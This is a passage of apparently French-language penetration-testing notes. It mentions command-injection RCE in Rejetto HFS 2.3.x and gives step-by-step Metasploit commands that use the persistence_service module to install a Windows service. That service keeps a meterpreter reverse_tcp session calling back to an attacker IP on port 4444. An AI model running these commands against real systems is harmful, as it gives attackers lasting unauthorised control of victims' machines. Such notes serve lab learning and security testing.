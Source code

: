 **🔥 Note :** Rejetto HFS 2.3.x est vulnérable à RCE via injection de commandes dans les paramètres HTTP.

---

## 🔧 3. Module de persistence Metasploit

### Informations sur le module
| Paramètre | Valeur |
|-----------|--------|
| **Module** | `exploit/windows/local/persistence_service` |
| **Prérequis** | Privileges Admin/SYSTEM |
| **Payload défaut** | `windows/meterpreter/reverse_tcp` |
| **Port défaut** | 4444 |
| **Persistance** | Service Windows |

### Configuration et exécution
```bash
# 1. Mettre session en arrière-plan
background

# 2. Charger module de persistence
use exploit/windows/local/persistence_service
show options

# 3. Configuration
set SESSION 1                           # Session Meterpreter active
set LHOST your_kali_ip                  # IP d'écoute
set LPORT 4444                          # Port d'écoute (optionnel)
set STARTUP SYSTEM                      # Démarrage automatique

# 4. Lancer la persistence
exploit
```

### Options avancées du module
| Option | Description | Valeur par défaut |
|--------|-------------|-------------------|
| `SESSION` | ID session Meterpreter | Requis |
| `LHOST` | IP attaquant | Auto-détecté |
| `LPORT` | Port d'écoute | 4444 |
| `STARTUP` | Type de démarrage | SYSTEM |
| `SERVICE_NAME` | Nom du service | Aléatoire |
| `EXECUTABLE_NAME` | Nom de l'exécutable | Aléatoire |

---